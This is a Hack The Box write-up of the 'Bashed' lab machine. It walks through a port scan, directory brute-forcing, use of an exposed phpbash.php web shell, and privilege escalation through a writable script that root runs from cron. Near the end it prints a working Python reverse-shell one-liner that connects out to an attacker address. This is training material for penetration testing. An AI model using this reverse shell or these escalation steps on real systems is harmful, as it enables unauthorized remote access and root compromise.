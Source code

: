 ```yaml
---
layout: PostSimple
date: 2019-12-04
title:     "Hack The Box - Bashed"
tags: ['linux','easy','sudo','cron']
layout: PostSimple
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/1.png)

We are going to pwn Bashed from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/118](https://www.hackthebox.eu/home/machines/profile/118)


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT   STATE SERVICE
80/tcp open  http


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only HTTP port is open so we can bruteforce the directories and find any way to the shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/2.png)

## Gobuster Results
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/06 00:27:13 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2019/12/06 00:29:21 Finished
===============================================================
```

While checking the ``/dev`` there is an ``phpbash.php``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/3.png)

Found 2 users ``arrexel and scriptmanager`` and got user flag too.

## Getting Shell

Now its time to get reverse shell to expore more

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/4.png)
Netcat didnt worked so i tried some others and perl works

Reverse Shell Cheatsheet
>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Copy and paste the command on the ``phpbash.php`` and listening on my machine [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/5.png)

## Privilege Escalation

Like always I started with ``sudo -l``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/6.png)

Looks like ``www-data`` can run any commands on the machine with the permission of ``scriptmanager`` without the password.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/7.png)

Now time to get root, I uploaded my Linux Enumeration Script and found some writeable scripts available. 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/8.png)

May be cronjob running on background so I started ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

My guess is correct! 

```bash
2019/12/04 07:46:01 CMD: UID=0    PID=2297   | python test.py

2019/12/04 07:46:01 CMD: UID=0    PID=2296   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```
I edited the script
 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/9.png)

```py
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Started my listener on my machine

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bashed/10.png)

I got Root!
